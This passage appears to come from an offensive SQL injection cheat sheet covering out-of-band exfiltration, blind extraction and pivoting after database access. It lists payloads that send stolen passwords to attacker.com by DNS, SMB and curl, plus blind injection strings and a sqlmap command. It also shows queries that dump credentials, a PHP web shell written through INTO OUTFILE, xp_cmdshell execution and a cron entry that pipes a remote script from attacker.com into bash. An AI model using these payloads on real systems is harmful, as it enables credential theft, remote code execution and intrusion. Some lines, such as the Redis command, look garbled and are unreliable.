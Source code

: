 3. **Out-of-Band exfil**
   Used in blind SQLi, great for stealth and bypassing WAFs
   **MySQL DNS-based:**
   	LOAD\_FILE(CONCAT('\\\\\\\\',(SELECT password FROM users LIMIT 1),'\\\\.attacker.com\\\\'));
   **MSSQL:**
   	exec xp\_dirtree '\\\\attacker.com\\share'
   **PostgreSQL:**
   	COPY (SELECT password FROM users) TO PROGRAM 'curl http://attacker.com/data.txt'
   
4. **Boolean/time-based blind exfil**
   If UNION/errors don’t work:
   	1' AND SUBSTRING((SELECT password FROM users LIMIT 1),1,1) = 'a'-- -
   **Automate with:**
   	sqlmap -u URL --technique=T --dbs
   

**Pivoting and lateral movement**

In the application layer(SQL Access) look for ways to:

* steal more credentials(RDS, Redis, SMTP)
* write to disk (RCE)
* Access other internal services
* poison internal cache or jobs



1. **credential extraction-pivot**
   Look for:
   	SELECT \* FROM users;
   	SELECT \* FROM environment;
   	SELECT \* FROM credentials;
   Find SMTP/Redis/AWS keys:
   	aws\_access\_key=AKIA....
   	smtp://username:password@mail.internal
   if creds found try logging into: 
   	Internal admin panels
   	S3 buckets
   	SSH or FTP (if creds found)
   	Database consoles
   
2. **RCE via SQLi (File Write/ Function Abuse)**
   If you can write files:
   **MySQL (Linux/PHP):**
   	UNION SELECT "<?php system($\_GET\['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'
   then: GET /shell.php?cmd=whoami
   **MSSQL:**
   	exec xp\_cmdshell 'powershell -enc ...'
   
3. **Access other internal systems(service pivot)**
   Use SQLi to:
   	Dump internal subdomains:
   		SELECT host FROM logs WHERE referrer LIKE '%internal%'
   	Pivot to Redis
   	  if Redis is reachable and unauthenticated, poison it:
   		SET CONFIG rewrite-command 'FLUSHALL' 'GETFLAG'
   	Poison scheduled jobs or cron via DB injections:
   		INSERT INTO cron (cmd) VALUES ('curl http://attacker.com/shell.sh | bash');
   